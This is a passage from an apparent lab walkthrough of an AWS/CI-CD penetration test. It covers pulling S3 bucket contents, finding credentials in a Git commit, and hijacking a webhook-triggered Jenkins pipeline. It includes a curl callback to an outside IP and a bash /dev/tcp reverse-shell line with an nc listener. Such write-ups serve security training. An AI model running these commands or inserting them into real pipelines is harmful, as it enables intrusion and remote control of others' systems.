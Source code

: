 ![alt](/images/posts/aws62.webp)
- Now that we can list the contents, we will try to download some files using the following parameter
```
	aws s3 cp s3://<s3_name> <rute> = ./
```
![alt](/images/posts/aws63.webp)
- To download multiple files or the entire bucket, we can use the sync subcommand instead of cp.
```
	aws s3 sync s3://<s3_name> <./rute>
```
![alt](/images/posts/aws64.webp)
- Thanks to being able to list the S3 contents and find a Git project, we discovered encoded credentials in a commit.
![alt](/images/posts/aws65.webp)

## GITHUB - GITLAB PIPELINES ENUMERATION
- Once inside GitLab with the found administrator password, we will try to locate the configuration file that contains the instructions for creating the pipeline, which is simply a file that defines the stages of the CI/CD process. In this case, we will enumerate the Jenkins file that has the pipelines defined; however, if there are other configuration types like YAML files, we will need to analyze those as well.
![alt](/images/posts/aws66.webp)
- This script contains stored credentials, so we could potentially exploit them. Additionally, the CI/CD stages appear to be configured. We could modify the script; however, we need to know what triggers the changes. This could be done manually, through a cron job, or via a webhook that updates changes whenever the Git repository content is modified. We will go to settings/webhooks to check if any exist.

We find one indicating that a push will trigger the modifier.
![alt](/images/posts/aws67.webp)

![alt](/images/posts/aws68.webp)
### PIPELINE MODIFICATION
- By modifying the pipeline, we could have introduced Groovy code since it's related to Jenkins; however, we decided to use native shell code (sh). To verify that the webhook is triggered with each change as configured, we will make an HTTP request. In this case, we are connecting from a Kali machine provided by the lab.
```
	sh 'curl http://3.235.31.41:8000/unix'
	python3 -m http.server 8000
```
![alt](/images/posts/aws69.webp)

![alt](/images/posts/aws70.webp)

- With this, we confirm code execution and will proceed to send a reverse shell.
```
	sh 'bash -c "bash -i &> /dev/tcp/3.235.31.41/443 0>&1"
	nc -nlvp 443
```
![alt](/images/posts/aws71.webp)
